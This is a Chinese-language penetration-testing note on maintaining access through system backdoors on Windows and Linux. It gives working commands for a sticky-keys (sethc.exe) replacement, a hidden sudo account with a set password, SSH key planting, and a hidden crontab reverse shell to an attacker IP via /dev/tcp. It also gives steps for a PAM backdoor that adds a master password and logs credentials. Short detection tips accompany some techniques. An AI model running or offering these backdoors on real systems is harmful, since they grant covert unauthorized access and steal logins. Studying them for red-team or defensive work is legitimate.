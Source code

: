 ```yaml
---
title: 【权限维持】系统后门
---
```

# 系统后门
# Windows

## Schtasks后门

Schtasks.exe能够在本地或远程计算机上创建，删除，查询，更改，运行和结束计划任务

不带参数运行Schtasks.exe会显示每个已注册任务的状态和下一次运行时间。

**Empire中的模块**

```bash
persistence/userland/schtasks
persistence/elevated/schtasks*		#需要管理员权限
```

一个开源工具： https://github.com/fireeye/SharPersist 

## wmi后门

WMI后门使用了WMI的两个特征：**无文件**和**无进程**（需要管理员权限运行）。

**原理是**：将代码加密存储与WMI中，即无文件；调用PowerShell执行后门程序，执行后进程消失，即无进程。

**在Empire中使用Invoke-WMI模块**

```bash
usemodule powershell/persistence/elevated/wmi	#设置参数run
```

> **检查后门：**使用微软提供的工具`Autoruns`：
>
> https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns 

## DLL劫持后门

DLL劫持原理就是使用 `loadlibrary` 动态加载DLL

DLL劫持工具：[SuperDllHijack](https://github.com/anhkgg/SuperDllHijack)

## 映像劫持shift后门

**替换sethc.exe为cmd.exe**

```bash
CD C:\windows\system32
cacls sethc.exe /t /e /G Administrators:f
cacls cmd.exe /t /e /G Administrators:f
ren sethc.exe aaa.exeren cmd.exe sethc.exe

#恢复
ren sethc.exe cmd.exeren aaa.exe sethc.exe
```

连按5下Shift弹出cmd窗口

> **检查后门**：连续按5下弹出cmd窗口（当然还有其它放大镜讲述人等）

# Linux

## 增加超级用户账号

> **如果系统不允许`uid=0`的用户（`root`）远程登录，可以添加一个普通用户，并将其加入sudoers**

**增加用户**

```bash
useradd phP		#添加账户
echo @admin.886|passwd --stdin phP	#设置密码(密码符合要密码强度策略)
```

**修改sudoers赋予sudo权限**

```bash
chmod +w /etc/sudoers    #赋予写入权限
echo "phP ALL=(ALL) ALL" >> /etc/sudoers	#添加sudo用户
chmod -w /etc/sudoers    #撤销写入权限
```

还可以修改/etc/passwd文件，把用户uid改为0。

## SSH公钥无密码登录

```bash
ssh-keygen -t rsa    #本机生成rsa公钥

#把id_rsa.pub写入服务端的authorized_keys中
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
echo "id_rsa.pub的内容" > ~/.ssh/authorized_keys

#没有这个文件的话，就自己创建一个
cd ~/
mkdir .ssh
cd .ssh
touch authorized_keys
```

## Crontab定时反弹shell

```bash
(crontab -l;printf "*/1 * * * * exec 9<> /dev/tcp/攻击者IP/8888;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

#每分钟执行一次，并且crontab -l看不出来
#这种要用crontab -e 进去查看并编辑才能看到
```

## PAM后门

>  **PAM** （Pluggable Authentication Modules ）是由Sun提出的一种认证机制。
>
>  它通过提供一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开
>
>  使得系统管理员可以灵活地根据需要给不同的服务配置不同的认证方式，而无需更改服务程序
>
>  同时也便于向系统中添加新的认证手段

**步骤：**

1、获取目标系统所使用的PAM版本，下载对应版本的pam版本

2、解压缩，修改pam_unix_auth.c文件，添加万能密码

3、编译安装PAM

4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换

​		即可使用万能密码登陆，并将用户名密码记录到文件中

**排查PAM后门技巧：**

1、通过Strace跟踪ssh

```bash
ps axu | grep sshd
strace -o aa -ff -p PID
grep open aa* | grep -v -e No -e null -e denied| grep WR
```

2、检查pam_unix.so的修改时间

```bash
stat /lib/security/pam_unix.so      #32位
stat /lib64/security/pam_unix.so    #64位
```

## Rootkit工具包

> rootkit是一种特殊的恶意软件。三要素是：**隐藏、操纵、收集数据**。
>
> 功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息
>
> 多见的rootkit一般都是木马、后门和其它恶意程序结合使用
>
> **Rootkit通过加载特殊的驱动，修改系统内核，进而达到隐藏信息的目的**
>
> Rootkit是攻击者用来隐藏自己的踪迹和保留root访问权限的工具

**Rootkit类型**

```bash
固件Rootkit
虚拟化Rootkit
内核级Rootkit
库级Rootkit
应用级Rootkit
```

**Rootkit工具包列表**：https://github.com/d30sa1/RootKits-List-Download  （注意与`Centos`版本适配）

**检测与防护：**

rkhunter：http://rkhunter.sourceforge.net/ 

chkrootkit：http://www.chkrootkit.org/download/ 

定期检查md5，对于找出的 Rootkit，最好的应对方法是擦除并重新安装系统